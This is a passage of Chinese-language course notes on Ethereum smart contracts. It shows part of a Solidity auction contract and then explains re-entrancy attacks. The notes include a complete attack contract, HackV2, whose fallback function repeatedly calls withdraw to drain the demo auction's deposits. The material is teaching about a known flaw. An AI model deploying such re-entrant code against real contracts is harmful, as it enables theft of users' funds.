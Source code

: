 ```solidity
	}
	
	/// 结束拍卖，把最高的出价发送给受益人
	function pay2Beneficiary() public returns (bool) {
		//拍卖已经截至
		require(now > auctionEnd);
		// 有钱可以支付
		require(bids[highestBidder] > 0);
		
		uint amount = bids[highestBidder];
		bids[highestBidder] = 0;
		emit Pay2Beneficiary(highestBidder, bids[highestBidder]);
		
		if (!beneficiary.call.value(amount)()) {
			bids[highestBidder] = amount;
			return false;
		}
		return true;
	}
}
```

这个版本不使用循环返回押金，未拍卖成功的账户**自己调用withdraw函数取回自己的押金**

### 重入攻击(Re-entrancy Attack)

当合约账户收到ETH但未调用函数时，会立刻执行`fallback()`函数

通过`addr.send()` `addr.transfer()` `addr.call.vallue()()`三种方式付钱都会触发`addr`里的`fallback()`函数。

`fallback()` 函数由用户自己编写

```
pragma solidity ^0.4.21;

import "./SimpleAuctionV2.sol";

contract HackV2 {
	uint stack = 0;
	
	function hack_bid(address addr) payable public {
		SimpleAuctionV2 sa = SimpleAuctionV2(addr);
		sa.bid.value(msg.value)();
	}
	
	function hack_withdraw(address addr) public payable{
		SimpleAuctionV2(addr).withdraw();
	}
	
	function() public payable{
		stack += 2;
		if(msg.sender.balance >= msg.value && msg.gas > 6000 && stack < 500){
			SimpleAuctionV2(msg.sender).withdraw(); // 将退押金的操作多次进行
		}
	}
}
```
